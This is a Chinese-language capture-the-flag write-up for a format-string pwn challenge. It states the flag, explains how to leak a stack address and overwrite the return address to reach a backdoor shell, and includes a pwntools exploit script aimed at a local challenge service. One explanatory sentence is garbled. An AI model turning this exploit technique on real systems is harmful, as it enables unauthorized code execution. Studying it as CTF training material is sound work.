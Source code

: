## flag

MOCSCTF{gR8^WY0tzi!PfS9k_LMATxQ3VuEjb7d}

## 解題步驟

![1](img/1.png)

1. 簡單的格式化字串題目，printf有問題，不過要注意，我們透過read輸入的字串保存在 bss段上而不是棧上，給出了後門，則目標是跳到shell即可

![2](img/2.png)

2. 透過動態調試，可以洩漏棧位址，我們的目標是透過修改rbp+8位置的回傳值為後門位址， 拿到shell，透過第二個，透過對+38位置進行修改，將其指向返回位址，即將 0x7ffe3e99dfbd修改為0x7ffe3e99c1a8，ffffe3e99dffd門地址進行修改了，最後拿到shell:

![3](img/3.png)

```
from pwn import *

filename = 'chall'
context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'neww']

LOCAL = False
elf = ELF(filename)

if LOCAL:
    sh = process(filename)
else:
    sh = remote('localhost', 9997)

def leak_info(name, addr):
    log.success(f"{name} => {hex(addr)}")

shell_addr = 0x40128C

# Leak stack address
sh.sendafter(b'Input your message:', b'%6$p')
sh.recvuntil(b'message:\n')
stack = int(sh.recvline(keepends=False), 16)
ret_addr = stack - 0x8  # rbp+8

leak_info('ret_addr', ret_addr)
leak_info('shell', shell_addr)

# Overwrite return address (lower 2 bytes)
payload = f"%{ret_addr & 0xffff}c%13$hn"
sh.sendafter(b'Input your message:', payload.encode())

# Overwrite return address to shell (lower 2 bytes)
payload = f"%{shell_addr & 0xffff}c%43$hn"
sh.sendafter(b'Input your message:', payload.encode())

# Trigger shell
sh.sendafter(b'Input your message:', b'su str done!\x00')
sh.interactive()
```